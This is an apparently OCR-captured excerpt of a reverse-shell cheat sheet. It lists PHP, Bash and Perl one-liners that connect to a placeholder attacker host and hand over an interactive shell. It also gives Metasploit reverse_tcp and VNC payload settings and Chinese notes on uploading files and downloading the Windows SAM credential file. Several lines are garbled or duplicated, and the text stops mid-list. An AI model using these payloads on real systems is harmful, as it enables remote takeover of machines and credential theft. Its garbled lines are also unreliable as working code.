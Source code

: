 ````bash
php -r '$sock=fsockopen("ATTACKING-IP",80);exec("/bin/sh -i <&3 >&3 2>&3");'
```

### Bash ###

```bash
exec /bin/bash 0&0 2>&0

0<&196;exec 196<>/dev/tcp/ATTACKING-IP/80; sh <&196 >&196 2>&196

exec 5<>/dev/tcp/ATTACKING-IP/80 cat <&5 | while read line; do $line 2>&5 >&5; done

bash -i >& /dev/tcp/ATTACKING-IP/80 0>&1
```

### Perl ###

```bash
exec "/bin/sh";

perl —e 'exec "/bin/sh";'

perl -e 'use Socket;$i="ATTACKING-IP";$p=80;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'

perl -MIO -e '$c=new IO::Socket::INET(PeerAddr,"ATTACKING-IP:80");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'

perl -e 'use Socket;$i="ATTACKING-IP";$p=80;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

## <center>Meterpreter</center> ##

### Windows ###

```bash
set payload windows/meterpreter/reverse_tcp
```
### Windows VNV ###

```bash
set payload windows/vncinject/reverse_tcp

set ViewOnly false
```
### Linux ###

```bash
set payload linux/meterpreter/reverse_tcp
```

### msf备忘 ###

上传文件

`upload file c:\\windows`

下载文件

`download c:\\windows\\repair\\sam /tmp`

运行exe
````
